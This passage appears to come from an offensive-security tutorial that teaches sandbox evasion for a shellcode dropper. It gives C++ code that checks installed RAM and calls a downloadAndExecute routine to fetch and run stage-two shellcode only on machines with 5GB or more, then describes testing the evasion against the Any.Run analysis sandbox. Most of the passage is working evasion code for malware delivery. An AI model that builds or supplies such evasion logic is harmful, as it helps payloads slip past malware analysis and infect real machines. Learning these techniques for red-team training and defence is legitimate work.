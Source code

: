 Now that we have the technical know-how, we should integrate this check into our code. Generally speaking (You should verify this by yourself), most Sandboxes have 4GB ofÂ RAMÂ dedicated to the machine, so we should check and see if the memory count is greater than 5; if it is not, exit the program; if it is, continue execution. We will not be modifying the `downloadAndExecute` function anymore; from here on, we will be adding new functionsÂ and changing the main function.

```cpp
BOOL memoryCheck() {
// This function will check and see if the system has 5+GB of RAM
// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
// Checks if the System Memory is greater than 5.00GB    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
// Evaluates if the installed RAM amount is greater than 5.00 GB,
//if true download Shellcode, if false, exit the program.    
if (memoryCheck() == TRUE) {        
    downloadAndExecute();    
    } else {        
       exit;    
    }
return 0;
} 
```

This code can be broken down into the following steps:

1. We're creating a new function (`memoryCheck`) that will return True or False.
2. We use the previous code from above to get the size of the system memory.
3. We check if the system memory is greater than 5GB; if it is true, we return TRUE; if false, we return FALSE.
4. The value returned from the function determines if we download and execute stage 2 or not.

**Testing our Code**

Now that we have finished the second of our third Sandbox Evasion method, it is important that we test it to ensure that it works. To do so, we are going to upload our files toÂ [Any.Run](http://any.run/)

- [One with the Memory Check function](https://app.any.run/tasks/e2f6a64b-02ef-43ca-bea5-e724b234001c)
- [One without the Memory Check function](https://app.any.run/tasks/7d06fc67-35c9-45f5-8865-af9dd6486075)

Looking at the two samples side by side shows some interesting differences; in the first submission, our memory check function works without any issue and gracefully exits the program when it notices the device has less than 5GB ofÂ RAM.
